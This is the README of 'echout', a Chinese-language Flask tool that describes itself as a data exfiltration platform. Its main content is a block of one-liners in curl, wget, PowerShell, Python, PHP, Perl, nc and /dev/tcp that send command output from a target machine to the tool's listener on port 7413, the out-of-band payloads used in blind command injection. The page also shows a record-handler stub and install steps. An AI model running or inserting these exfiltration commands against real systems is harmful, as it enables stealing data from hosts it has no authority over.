 # echout

数据外带平台

[Get .py](https://github.com/fb0sh/echout/releases)

# 友好的日志界面

<img width="2307" height="1375" alt="image" src="https://github.com/user-attachments/assets/ca705553-791c-49d6-9d03-753fce19e7d2" />

# 外带数据的方式
```bash
pwd | curl --data-binary @- http://0.0.0.0:7413/
wget --method=POST --body-data="$(pwd)" http://0.0.0.0:7413/ -O -
ls | powershell -c "irm -Uri http://0.0.0.0:7413/ -Method POST -Body ([Console]::In.ReadToEnd())"
python3 -c 'import os,socket;b=os.popen("pwd").read();s=socket.create_connection(("0.0.0.0",7413));s.send(b"POST / HTTP/1.1\r\nHost:x\r\nContent-Length:%d\r\n\r\n%b"%(len(b),b.encode()))'
python2 -c 'import os,socket;b=os.popen("pwd").read();s=socket.create_connection(("0.0.0.0",7413));s.send("POST / HTTP/1.1\r\nHost:x\r\nContent-Length:%d\r\n\r\n%%s"%(len(b),b))'
php -r '$b=`pwd`; $s=fsockopen("0.0.0.0",7413); fwrite($s,"POST / HTTP/1.1\r\nHost:x\r\nContent-Length:".strlen($b)."\r\n\r\n$b");'
perl -e 'use IO::Socket::INET;$b=`pwd`;IO::Socket::INET->new(PeerAddr=>"0.0.0.0",PeerPort=>7413)->send("POST / HTTP/1.1\r\nHost:x\r\nContent-Length:".length($b)."\r\n\r\n$b")'
b=$(pwd); echo -ne "POST / HTTP/1.1\r\nHost: x\r\nContent-Length:${#b}\r\n\r\n$b" | nc 0.0.0.0 7413
b=$(pwd); echo -ne "POST / HTTP/1.1\r\nHost: x\r\nContent-Length: ${#b}\r\n\r\n$b" > /dev/tcp/0.0.0.0/7413
curl http://0.0.0.0:7413/$(pwd)
```

# 可供编程的链式调用
```python
class EchoRecord:
    request: Request
    date: str
    ip: str
    data: str
    headers: str
```

```python
def handle_record(record: EchoRecord):
    print(record)
```

可以在此处进行后续的处理

# how to use?

1. 安装 python3
2. `pip install flask`
3. `python echout.py`
